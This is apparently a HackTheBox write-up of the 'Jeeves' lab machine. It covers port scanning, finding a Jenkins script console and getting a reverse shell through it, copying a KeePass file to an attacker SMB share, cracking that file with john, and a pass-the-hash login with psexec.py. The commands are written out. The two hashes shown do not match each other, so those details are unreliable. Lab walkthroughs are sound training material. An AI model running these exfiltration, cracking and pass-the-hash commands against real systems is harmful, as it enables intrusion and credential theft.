 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Jeeves/logo.png
date: 2023-12-20 09:45:47+07:00
modified: 2023-12-20 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
tags: [Jeeves, Jenkins, enum4linux-ng, Bruteforce, CTF, datastream, smb, FileTransfer, PassTheHash, Keepass, kdbx, john, hashcat, CME, Windows, OSCP, Writeup, Enumeration, Port Scanning, Dirsearch, Reverse Shell, Alternate Data Streams, Privilege Escalation, NTLM Hash, Exploitation]
title: Jeeves - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)


Jeeves is not overly complicated, however, it focuses on some interesting techniques and provides a great learning experience. As the use of alternate data streams is not very common, some users may have a hard time locating the correct escalation path.  



# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.63`

`nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oA ./nmap/jeeves -Pn`

|Ports|Service
|:-------------:|:-------------:|
|80| msrpc Microsoft IIS httpd 10.0
|135| msrpc Microsoft Windows RPC
|445| Windows Server 2016 Standard 14393
|50000| Jetty 9.4.z-SNAPSHOT


![](https://photos.squarezero.dev/file/abir-images/Jeeves/1.png)

First I checked SMB server and there was no listing of anonymous sign-in.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/2.png)

I also ran [Enum4linux-NG](https://www.kali.org/tools/enum4linux-ng/) to make sure and it also enumarate RPC for me.



`enum4linux-ng 10.10.10.63 -A -C`


![](https://photos.squarezero.dev/file/abir-images/Jeeves/3.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/4.png)

Next, I visited port 80. It shows AskJeeves search but if something is searched on the toolbar it redirects to `/error.html?` . 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/5.png)

![](https://photos.squarezero.dev/file/abir-images/Jeeves/6.png)

You can't click or select on the screen. After seeing the source code we can confirm it's just an image [jeeves.PNG]().

![](https://photos.squarezero.dev/file/abir-images/Jeeves/7.png)

Next, I visited port 50000. It gives a 404 error. 

![](https://photos.squarezero.dev/file/abir-images/Jeeves/8.png)



# Foothold

I did a [Dirsearch]() on both ports 80 & 500000 and found `/askjeeves` .

```bash
dirsearch -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Jeeves/9.png)

After visiting the directory we are met with the Jenkins dashboard.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/10.png)

We can go to `/askjeeves/script` and find the script console. We can get a reverse shell using the following script.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/11.png)

I set up Netcat listening on my local machine and after hitting run we can get a reverse shell.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/12.png)

I got the user.txt

![](https://photos.squarezero.dev/file/abir-images/Jeeves/13.png)

# Privilege Escalation

After looking for a bit I found `CEH.kdbx` file. This is the [Keepass](https://keepass.info/) db file.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/14.png)

I transferred the file using `impacket-smbserver`. 

Attacker Machine
`sudo impacket-smbserver share -smb2support /tmp/ -user test -password test`

Target Machine
`copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.22\share\`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/15.png)

I tried to open the file with [KeePassXC]() but it was password locked.


I extracted the password hash of the file and then brute-forced it with John().



`keepass2john CEH.kdbx >> hash.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Password → `moonshine1`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/16.png)

I used the credential to open the file and found an NTLM hash.

NTLM → `afbc5bd4b615a60648cec41c6ac92530`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/17.png)

I used [PSEXEC]() to do a [PassTheHash]() attack to get into the admin user.

`psexec.py administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/18.png)

When I went to get the flag I saw a text to find the flag elsewhere.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/19.png)

I checked for hidden files and found `hm.txt:root.txt:$DATA`.

![](https://photos.squarezero.dev/file/abir-images/Jeeves/20.png)

This is an alternative data stream. I the flag using Get-Content .

`powershell (Get-Content hm.txt -Stream root.txt).substring(0,32)`

or `more < hm.txt:root.txt`

![](https://photos.squarezero.dev/file/abir-images/Jeeves/21.png)